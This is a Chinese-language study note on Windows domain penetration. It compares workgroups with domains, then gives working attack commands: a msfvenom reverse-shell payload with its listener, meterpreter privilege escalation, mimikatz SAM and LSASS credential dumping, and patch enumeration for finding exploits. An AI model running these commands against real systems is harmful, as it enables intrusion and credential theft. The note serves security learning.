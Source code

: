 ```yaml
---
title: 域渗透入门
categories:
- WindowDomain
tags:
- WindowDomain
---
```

## 参考资料
- 乌云文章：《域内渗透基本技巧》
- [Kerberos概述及常见攻击场景](https://www.anquanke.com/post/id/200680)

## 录制的视频教程
首先搭一个域环境

- [域渗透原理篇](https://www.bilibili.com/video/BV1Cf4y1U73y/)
- [域渗透实践篇（一）](https://www.acfun.cn/v/ac14954038)

## 工作组和域的区别
1. 大小
工作组比较小，不超过20台。域用在比较大的网络，成百上千台。
2. 拓扑图
工作组中，所有机器的地位是平等的，一台计算机可以自由的加入或退出一个工作组。
3. 验证方式
在工作组中，用户名、密码存放在本地计算机。如果要登入其他计算机，必须提供用户名，密码；在域中，有一台域控（DC）服务器，其他计算机都要通过DC验证才能加入域。有域权限，可以登入任何域内计算机，无需知道计算机的账号也可以登入。
4. 网络
工作组计算机必须在同一个子网中；域的计算机可以在不同的本地网络中。

## 获得一个shell
```
生成恶意载荷
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=6678 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
---
设置监听器
handler -H 192.168.1.4 -P 6678 -p windows/meterpreter/reverse_tcp
---
反弹shell成功后，进行提权
sysinfo 		#查看windows是32位/64位
migrate         #如果是64位置，需要migrate到64位进程
search suggester
use 0
set session 1
run             #查找可以利用的exp
use exploit/windows/local/always_install_elevated  #使用提权exp
set session 1
```
## meterpreter mimikatz模块
```
      crypto	- Cryptographie et certificats
        hash	- Hash
      system	- Gestion syst�me
     process	- Manipulation des processus
      thread	- Manipulation des threads
     service	- Manipulation des services
   privilege	- Manipulation des privil�ges
      handle	- Manipulation des handles
 impersonate	- Manipulation tokens d'acc�s
     winmine	- Manipulation du d�mineur
 minesweeper	- Manipulation du d�mineur 7
       nogpo	- Anti-gpo et patchs divers
     samdump	- Dump de SAM   #导出sam密码
      inject	- Injecteur de librairies
          ts	- Terminal Server
      divers	- Fonctions diverses n'ayant pas encore assez de corps pour avoir leurs propres module
    sekurlsa	- Dump des sessions courantes par providers LSASS
         efs	- Manipulations EFS
```

## 信息搜集-补丁查找
```
shell
cd C:\Windows\Temp
systeminfo > info.txt

---
pip install xlrd 
pip install xlrd -upgrade
python .\windows-exploit-suggester.py --update
python .\windows-exploit-suggester.py -d  2020-04-16-mssb.xls -i info.txt
```
